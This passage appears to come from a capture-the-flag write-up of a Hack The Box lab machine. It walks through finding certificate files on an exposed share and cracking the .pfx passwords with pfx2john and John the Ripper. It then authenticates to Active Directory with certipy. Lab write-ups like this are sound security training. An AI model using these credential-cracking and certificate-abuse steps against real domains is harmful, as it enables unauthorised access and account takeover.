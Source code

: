         ![](https://cdn-images-1.medium.com/max/1000/1*ChMJXQfzW68q91B94BHs-A.png)

Inside the exposed share, we found several certificate-related files. These files include private keys (.key), Certificate (.crt) and personal information exchange files (.pfx). Such files can potentially be abused to authenticate within an Active Directory environment, depending on how certificates are configured.

#### 2. SSL/TLS Certificate
   To verify whether the domain is using its own ADCS, we inspected the SSL/TLS certificate presented by the Global Catalog over SSL (port 3269)
    ```bash
    openssl s_client -connect 10.10.11.65:3269 -showcerts
    ```
    ![](https://cdn-images-1.medium.com/max/1000/1*I02vvMFejEZvjLcZYy__EA.png)
    The output confirms that the server is using a certificate issued by its own internal CA named scepter-DC01-CA.
## Exploitation
### Cracking the .pfx Files
1. Inspecting the .pfx Files
We can start by extracting information from the .pfx files using openssl
    ```bash
    openssl pkcs12 -in scott.pfx -info -nodes
    ```
    ![](https://cdn-images-1.medium.com/max/1000/1*-bC3DCNsBgIUE9lw6Wll6w.png)
    The .pfx files are password protected, and we couldn’t extract any useful information at this stage. The next logical step is to attempt password cracking through brute-force. 
2. Cracking .pfx Passwords with John the Ripper
    + Convert the .pfx files into a crackable format for John
        ```bash
pfx2john scott.pfx > scott.hash
pfx2john lewis.pfx > lewis.hash
pfx2john clark.pfx > clark.hash
        ```
        ![](https://cdn-images-1.medium.com/max/1000/1*BVv11w5qofuc5LXYio8eSw.png)
    + Crack the hashes using john
        ```bash
        john scott.hash --wordlist=/usr/share/wordlists/rockyou.txt
        ```
        ![](https://cdn-images-1.medium.com/max/1000/1*s0blcscL8k8XI36WpznipA.png)
        All .pfx files share the same password: newpassword.
3. Auth using pfx files

    With the cracked password, we can now authenticate using the one of the .pfx files
    ```bash
certipy auth -pfx Newclark.pfx -password newpassword -domain scepter.htb -dc-ip 10.10.11.65     
    ```
    ![](https://cdn-images-1.medium.com/max/1000/1*hTekyM0fu7VUbOW6EBh8yw.png)
    